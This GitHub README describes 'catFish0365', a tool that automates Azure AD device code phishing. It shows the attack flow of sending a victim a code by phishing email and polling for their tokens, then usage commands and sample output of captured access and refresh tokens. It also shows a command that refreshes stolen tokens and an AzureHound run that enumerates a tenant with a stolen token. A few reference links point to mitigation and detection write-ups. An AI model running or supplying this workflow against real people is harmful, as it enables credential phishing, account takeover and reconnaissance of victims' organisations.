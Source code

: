 # catFish0365

<img src="images/catfish.png" width="300px">

***`catFish0365` is a simple program to automate device code phishing attacks.***

## Attack Flow

 * Step 1: The program generates a user code by requesting the [Azure AD devicecode endpoint](https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0)
 * Step 2: The user code is sent to the victim (e.g. phishing email sent to the victim)
 * Step 3: The victim opens phishing email and inputs the user code by visiting the [devicelogin url](https://microsoft.com/devicelogin)
 * Step 4: the victim logs into his account
 * Step 5: The program polls the Azure AD for the authentication status until it gets his refresh and access tokens (successfull login) by requesting the [OAuth endpoint](https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0)

## Usage
```shell
Usage: catFish0365 <command>

A tool to automate device code phishing attacks by @froyo75

Flags:
  -h, --help                                               Show context-sensitive help.
  -c, --clientid="d3590ed6-52b3-4102-aeff-aad2292ab01c"    The Application (client) ID of an Azure App to target (default: d3590ed6-52b3-4102-aeff-aad2292ab01c).
  -r, --resource="https://graph.windows.net"               The resource to request access tokens.
  -o, --out-path=STRING                                    Logging output to a specific file.
  -v, --version                                            Print version information and quit.

Commands:
  exploitdcauth
    Launch device code phishing attack.

  getaccesstoken <refreshtoken>
    Get a new access token for the given clientid and resource using the given refresh token.

Run "catFish0365 <command> --help" for more information on a command.

catFish0365: error: expected one of "exploitdcauth",  "getaccesstoken"
```

**To perform the device code phishing attack**
```shell
./catFish0365 exploitdcauth
10 Apr 2023 17:41:52 INF [*] Generating a new user code
10 Apr 2023 17:41:55 INF [+] User Code => CKQUNSU3H (https://microsoft.com/devicelogin)
10 Apr 2023 17:41:55 DBG [*] Authorization Pending...
10 Apr 2023 17:43:31 DBG [*] Authorization Succeeded !
10 Apr 2023 17:43:31 INF [+] TID: 9188040d-6c67-4c5b-b112-36a304b66dad
10 Apr 2023 17:43:31 INF [+] APPID: d0beb0cf-dd33-40ba-9c31-08f498437115
10 Apr 2023 17:43:31 INF [+] OID: 4af8c092-9633-4547-9e96-c32b09ea022b
10 Apr 2023 17:43:31 INF [+] AMR: pwd, mfa
10 Apr 2023 17:43:31 INF [+] UPN: jdoe@contoso.com
10 Apr 2023 17:43:31 INF [+] NAME: John Doe
10 Apr 2023 17:43:31 INF [+] FAMILY NAME: Doe
10 Apr 2023 17:43:31 INF [+] GIVEN NAME: John
10 Apr 2023 17:43:31 INF [+] IP ADDRESS: 20.81.111.85
10 Apr 2023 17:43:31 INF [+] REGION: EU
10 Apr 2023 17:43:31 INF [+] Access Token => eyJ0[...]AMJA
10 Apr 2023 17:43:31 INF [+] Refresh Token => 0.AT[...]hoK4
```

**To get a new Azure AD access token for the given clientid `d3590ed6-52b3-4102-aeff-aad2292ab01c` (Microsoft Office) and resource `https://graph.windows.net` using the given refresh token**
```shell
 ./catFish0365 getaccesstoken 0.AT[...]hoK4
10 Apr 2023 17:58:45 INF [*] Getting a new access token for the given resource: https://graph.windows.net
10 Apr 2023 17:58:46 DBG [*] Successfully got a new access token !
10 Apr 2023 17:58:46 INF [+] Access Token => eyJ0[...]qEWQ
10 Apr 2023 17:58:46 INF [+] Refresh Token => 0.AT[...]e3QY
```

**To start [azurehound](https://github.com/BloodHoundAD/AzureHound) data collection using the acquired refresh token**
```shell
azurehound.exe list --tenant "contoso.com" -r 0.AT[...]hoK4  -o output.json
AzureHound v1.2.0
Created by the BloodHound Enterprise team - https://bloodhoundenterprise.io
2023-04-10T18:22:39+02:00 INF finished listing all users count=355
2023-04-10T18:22:39+02:00 INF finished listing all apps count=34
2023-04-10T18:22:39+02:00 INF finished listing all groups count=48
2023-04-10T18:22:39+02:00 INF warning: unable to process azure management groups; either the organization has no management groups or azurehound does not have the reader role on the root management group.
2023-04-10T18:22:39+02:00 INF finished listing all management group user access admins
2023-04-10T18:22:39+02:00 INF finished listing all management group owners
2023-04-10T18:22:39+02:00 INF finished listing all management group descendants
2023-04-10T18:22:40+02:00 INF finished listing all tenants count=3
2023-04-10T18:22:40+02:00 INF finished listing all subscriptions count=0
2023-04-10T18:22:40+02:00 INF finished listing all function apps
2023-04-10T18:22:40+02:00 INF finished listing all key vaults
2023-04-10T18:22:40+02:00 INF finished listing all subscription user access admins
2023-04-10T18:22:40+02:00 INF finished listing all storage accounts
2023-04-10T18:22:40+02:00 INF finished listing all automation accounts
2023-04-10T18:22:40+02:00 INF finished listing all resource groups
2023-04-10T18:22:40+02:00 INF finished listing all workflows
2023-04-10T18:22:40+02:00 INF finished listing all virtual machines
2023-04-10T18:22:40+02:00 INF finished listing all subscription owners
[...]
2023-04-10T18:48:55+02:00 INF finished listing members for all groups
2023-04-10T18:48:57+02:00 INF finished listing all devices count=975
2023-04-10T18:48:57+02:00 INF finished listing all device owners
2023-04-10T18:49:20+02:00 INF finished listing all service principals count=788
2023-04-10T18:49:20+02:00 INF finished listing all service principal owners
2023-04-10T18:49:20+02:00 INF finished listing all app role assignments
2023-04-10T18:49:20+02:00 INF collection completed duration=46.8867399s
```

## References

Microsoft OAuth Device Code Phishing:
 * [Microsoft 365 OAuth Device Code Flow and Phishing](https://www.optiv.com/insights/source-zero/blog/microsoft-365-oauth-device-code-flow-and-phishing)
 * [The Art of the Device Code Phish](https://0xboku.com/2021/07/12/ArtOfDeviceCodePhish.html)

Framework to abuse Azure JSON Web Token (JWT):
 * [TokenTactics](https://github.com/rvrsh3ll/TokenTactics)
 * [AADInternals](https://github.com/Gerenios/AADInternals)

Mitigation & Detection methodology:
 * [Mitigation of Microsoft OAuth Device Code Phishing](https://www.optiv.com/insights/source-zero/blog/microsoft-365-oauth-device-code-flow-and-phishing)
 * [Detection Methodology](https://www.inversecos.com/2022/12/how-to-detect-malicious-oauth-device.html)
